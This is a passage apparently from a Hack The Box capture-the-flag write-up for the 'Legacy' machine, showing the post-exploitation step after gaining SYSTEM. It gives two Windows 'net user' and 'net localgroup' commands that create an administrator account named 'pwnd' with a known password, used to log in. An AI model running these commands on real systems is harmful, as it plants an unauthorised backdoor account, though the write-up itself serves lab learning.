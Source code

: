 Now for a login. As system we can do back to our shell just create an admin user and password with the following 2 lines of code:

```
net user pwnd Pa$$w0rd /ADD
net localgroup administrators pwnd /add
```

which we can login with:


![pwnd.png](/assets/htb_stuff/legacy/pwnd.png)

And it is PWND!